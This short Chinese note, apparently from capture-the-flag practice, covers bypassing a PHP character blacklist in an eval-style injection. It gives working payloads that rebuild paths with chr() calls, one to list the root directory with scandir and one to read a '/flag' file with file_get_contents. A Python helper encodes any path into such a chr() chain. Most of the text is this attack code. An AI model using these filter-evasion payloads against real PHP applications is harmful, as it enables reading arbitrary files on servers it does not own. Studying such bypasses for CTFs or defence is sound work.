 # PHP 字符过滤 在函数伪eval条件下
```php
// 过滤范围
$blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
// 文件查找读取
// payload
// ls /
var_dump(scandir(chr(47)));
// cat /flag
var_dump(file_get_contents(chr(47).chr(102).chr(108).chr(97).chr(103)))
```
####  附：字符转换代码
```python
cmd = "/f1agg"
out = ""
for i in cmd:
    out+=f".chr({ord(i)})"
print(out[1:])
```